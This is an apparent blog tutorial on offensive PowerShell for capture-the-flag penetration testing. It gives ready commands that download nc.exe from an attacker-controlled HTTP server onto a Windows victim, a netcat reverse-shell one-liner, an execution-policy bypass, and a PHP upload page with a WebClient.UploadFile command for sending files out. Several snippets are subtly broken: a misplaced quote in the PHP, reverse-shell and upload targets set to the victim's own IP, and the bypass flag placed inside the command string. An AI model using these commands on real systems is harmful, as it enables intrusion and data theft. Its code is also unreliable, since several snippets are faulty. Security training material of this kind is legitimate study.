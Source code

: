 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Downloading And Exfiltrating"
author: nanobyte
date:   2020-08-28
description: PowerShell for Penetration Testing, and how to download files to a victim machine, and exfiltrate data from the victim machine
tags: PowerShell
---
```


This next installment in the Powershell For Penetration Testers looks into how an attacker can introduce files to a victim machine through a PowerShell download, as well as how to use PowerShell to upload files from a victim machine to your attacking box. I recently decided to continue on with this series to help other new comers into the field to learn as I learn. I recently used these skills on a recent Hack The Box machine, which if I remember to, will post the link to the writeup as a practical example.

<h1>Downloading Files with PowerShell</h1>

Using a PowerShell session, an attacker can quickly download files to a victim machine. There are hundreds of examples more intense then what I will show you, but here are my two methods and go-to's which I attempt whenever I am performing an attack. In the examples to follow, I will assume that I am attempting to download `nc.exe` to the victim machine, which I would then plan to use to call a reverse shell back to my attacking machine. I will assume that the victim machine I am attacking is a Windows based Operating System, and I am using Kali Linux as my attacking box. Luckily, PowerShell is installed on all Windows platforms, including Windows IoT Core (hint for the Hack The Box machine).

Please also assume that my Kali Linux has a HTTP server running (This can be Apache, Python's SimpleHTTPServer, whatever you prefer) and has an IP of 10.10.10.2, where the Windows machine is 10.10.10.1. 

<h2>Invoke-WebRequest</h2>

The first example is a quick one that can easily be remembered, using a PowerShell cmdlet:

{% highlight powershell lineos %}
powershell -c "mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

This command first calls PowerShell to run a command with the `-c` flag. This is shortened from the `-Command` flag. This also assumes that you are on the machine with a command prompt with remote code execution. Then, the command is actually executed, first making a directory to save our `nc.exe` binary to. The following command then uses the `Invoke-WebRequest` cmdlet to download our file from the web server, and saves it to the `C:\temp` directory.

We could further this command by then calling `& c:\temp\nc.exe -e cmd.exe 10.10.10.1 1337` to connect back to our reverse shell (but that is outside of this article) to further our attack as a one-liner.

<h2>System.Net.WebClient</h2>

However, I frequently find that this is not the preferred method in Hack The Box or other CTF's to download files to victims. This is from personal experience, where the above failes completely or a binary is not downloaded, or downloading slowly. This brings us to our next approach, using PowerShell's `System.Net.WebClient`:

{% highlight powershell linenos %}
powershell -c "mkdir c:\temp & (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2/nc.exe','C:\temp\nc.exe')"
{% endhighlight %}

This is similar to the example above, creating the directory before downloading, only using a .NET class to download.

<h2>Remember -ExecutionPolicy Bypasss</h2>

Along with PowerShell, remembe that there are sometimes restrictions placed onto the PowerShell session you may be running. I already have an article describing how to beat these execution policies, found <a href="/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">here</a>. To make sure that you beat these restricted execution methods, quickly throw a `-exec bypass` before your download command:

{% highlight powershell linenos %}
powershell -c "-exec bypass mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

<h1>Exfiltrating Data</h1>

This is a method where you use a HTML server running on your Kali Linux attacking machine, where PowerShell can upload a file from a victim machine to your Kali. First, we will need to create a PHP page to process our upload request. This can be found here:

{% highlight php linenos %}
<?php
$uploaddir = '/var/www/uploads';
$uploadfile = '$uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
{% endhighlight %}

Also, make sure that the upload directory exists in your Kali Linux. Once saved and created into our `/var/www/html` directory as `upload.php`, start and stop our local Apache processes:

{% highlight powershell linenos %}
sudo service apache2 status
/etc/init.d/apache2 start
/etc/init.d/apache2 stop
{% endhighlight %}

And once running, from the victim box, call the PowerShell command to exfiltrate the data you require:

{% highlight powershell linenos %}
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.10.1/upload.php, 'file.txt')"
{% endhighlight %}

And check your upload directory for the file!

Thank you for reading, please keep coming back for more in this series as nanobyte learns and updates PowerShell For Penetration Testers!
